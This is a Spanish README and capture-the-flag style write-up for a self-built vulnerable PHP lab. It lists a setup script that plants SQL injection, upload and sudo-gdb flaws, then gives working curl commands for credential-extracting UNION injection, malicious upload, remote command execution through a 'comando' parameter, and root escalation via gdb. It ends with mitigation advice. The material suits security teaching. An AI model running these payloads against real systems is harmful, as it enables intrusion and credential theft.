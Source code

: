Este proyecto ha acabado con mi salud mental
descargar zip y 
poner los archivos en home de user1
abrir una terminal
HACER:
chmod +x setup_OVA.sh
./setup_OVA.sh

chmod +x automatizado.sh
./automatizado.sh


Aquí tienes el write-up actualizado con detalles sobre la configuración inicial del entorno y el proceso de explotación:

---

## **Write-up: Explotación de Sistema Vulnerable con RCE y Elevación de Privilegios usando GDB**

### **Descripción del Sistema**
Este sistema web vulnerable, desarrollado en PHP, tiene un fallo de seguridad que permite la ejecución remota de código (RCE). El sistema utiliza Apache como servidor web y se ejecuta bajo el usuario `www-data`. Este fallo permite a un atacante con acceso a la aplicación web escalar privilegios y acceder a dos *flags* escondidas en:

1. **Flag de usuario**: `/home/www-data/user.txt`
2. **Flag de root**: `/root/root.txt`

El exploit aprovecha inyecciones SQL, subida de archivos maliciosos y escalación de privilegios usando **gtfobins** con `gdb`.

---

## **1. Configuración del Sistema Vulnerable**

### **Archivos Utilizados**
1. **`setup_ova.sh`**:
   Este script configura el entorno vulnerable, automatizando la instalación de software y la creación de vulnerabilidades necesarias para la explotación.

   #### **Proceso de Configuración Automatizada**
   El script realiza las siguientes acciones clave:
   - **Instalación de Apache y PHP**: Configura el servidor web Apache y el intérprete PHP, necesarios para ejecutar la aplicación web.
   - **Configuración de MySQL**:
     - Crea la base de datos `ssi`.
     - Añade múltiples tablas relacionadas con usuarios, administradores, imágenes y eventos.
     - Inserta datos predeterminados, incluyendo un administrador inicial con credenciales almacenadas directamente en la base de datos.
   - **Despliegue de la Aplicación**:
     - Extrae un archivo ZIP (`final.zip`) con los archivos web y los despliega en `/var/www/html/web`.
     - Configura permisos para asegurar que el servidor Apache (`www-data`) pueda leer y ejecutar los archivos.
   - **Configuración de GDB para Escalación de Privilegios**:
     - Ajusta los permisos de `gdb` mediante el archivo `sudoers`, permitiendo que el usuario `www-data` ejecute este binario como root sin contraseña.

   #### **Instrucciones de Uso**:
   Ejecutar el script como root:
   ```bash
   chmod +x setup_ova.sh
   ./setup_ova.sh
   ```

2. **`automatizado.sh`**:
   Este script automatiza el proceso de explotación, realizando todos los pasos necesarios, desde la inyección SQL hasta la extracción de las *flags*. Diseñado para ahorrar tiempo, simplifica el ataque para evitar realizar comandos manuales.

   #### **Acciones Automatizadas**
   - Realiza la inyección SQL para extraer credenciales.
   - Se autentica automáticamente como administrador en el sistema.
   - Sube el archivo malicioso `gdb.sh` al servidor.
   - Ejecuta comandos en el servidor remoto para explotar la vulnerabilidad RCE.
   - Escala privilegios con `gdb` y lee las *flags*.

   #### **Instrucciones de Uso**:
   Ejecutar el script directamente:
   ```bash
   chmod +x automatizado.sh
   ./automatizado.sh
   ```

   Durante la ejecución, el script muestra las acciones realizadas y los resultados, incluyendo el contenido de las *flags*.

---

## **2. Explotación**

### **Paso 1: Inyección SQL**
La vulnerabilidad en `rover_id` permite inyección SQL para extraer credenciales. Por ejemplo:
```bash
http://localhost/web/final/ulio-html/listadoFotosRovers.php?rover_id=' UNION SELECT 1, 2, contrasena, gmail, 5 FROM final_usuarios--
```

#### **Objetivo**:
Extraer las credenciales del administrador, incluyendo:
- **Correo electrónico (`gmail`)**: Para el login.
- **Contraseña (`contrasena`)**: En texto plano.

#### **Automatización**:
El script `automatizado.sh` realiza esta extracción utilizando `curl` y formatea la salida con `jq`.

---

### **Paso 2: Acceso como Administrador**
Con las credenciales obtenidas, autenticarse en el sistema:
```bash
curl -X POST \
     -d "email=admin@gmail.com" \
     -d "contrasena=admin123" \
     -d "es_administrador=on" \
     -c cookies.txt \
     "http://localhost/web/final/dashmin/login.php"
```

Esto almacena las cookies de sesión en `cookies.txt`, lo que permite acciones autenticadas.

---

### **Paso 3: Subida de Archivo Malicioso**
Como administrador, la funcionalidad de subida de imágenes permite cargar un script malicioso (`gdb.sh`):
```bash
curl -X POST \
     -F "profile_picture=@gdb.sh" \
     "http://localhost/web/final/dashmin/upload.php"
```

El archivo se guarda en el directorio `uploads/` del servidor.

---

### **Paso 4: Ejecución del Script Malicioso**
Usando otra vulnerabilidad en el servidor (RCE), ejecutamos `gdb.sh`:
```bash
curl -s -b cookies.txt \
"http://localhost/web/final/dashmin/list_uploads.php?comando=chmod%20744%20uploads/gdb.sh;./uploads/gdb.sh"
```

Este comando:
1. Cambia permisos del script a ejecutables.
2. Lo ejecuta, escalando privilegios a root.

---

### **Paso 5: Captura de las Flags**
1. **Flag de Usuario**:
   El script accede al archivo `/home/www-data/user.txt`:
   ```bash
   curl -s -b cookies.txt \
   "http://localhost/web/final/dashmin/list_uploads.php?comando=cat%20/home/www-data/user.txt"
   ```

2. **Flag de Root**:
   Con `gdb`, se lee `/root/root.txt`:
   ```bash
   ./uploads/gdb.sh
   ```

El contenido de ambas *flags* se muestra en la salida.

---

## **3. Mitigación**

### **Vulnerabilidades Identificadas**
1. **Inyección SQL**:
   - El parámetro `rover_id` no sanitiza entradas.
2. **Subida de Archivos Maliciosos**:
   - No hay validación de extensiones ni restricciones de tipo MIME.
3. **Escalación de Privilegios**:
   - El binario `gdb` tiene permisos inseguros en el archivo `sudoers`.

---

### **Medidas de Seguridad**
1. **Sanitización de Entradas**:
   - Usar consultas SQL preparadas.
   - Validar entradas para evitar comandos maliciosos.

2. **Control de Subidas de Archivos**:
   - Limitar las extensiones permitidas (`.jpg`, `.png`).
   - Subir archivos a directorios con permisos `noexec`.

3. **Configuración Segura de Permisos**:
   - Revisar los binarios con permisos elevados (`gdb`) y eliminar configuraciones inseguras en `sudoers`.

4. **Deshabilitar Funciones Inseguras en PHP**:
   - Modificar `php.ini` para restringir funciones como `exec`, `shell_exec`:
     ```
     disable_functions = exec, system, passthru
     ```

5. **Principio de Privilegios Mínimos**:
   - Ejecutar el servidor web con permisos limitados y aislarlo en un entorno de contenedor o jaula (`chroot`).

---

## **Conclusión**
Este escenario ilustra cómo una serie de vulnerabilidades, combinadas, pueden comprometer un sistema web. Desde inyección SQL hasta escalación de privilegios, es fundamental identificar y mitigar estos riesgos para proteger aplicaciones web contra ataques avanzados.
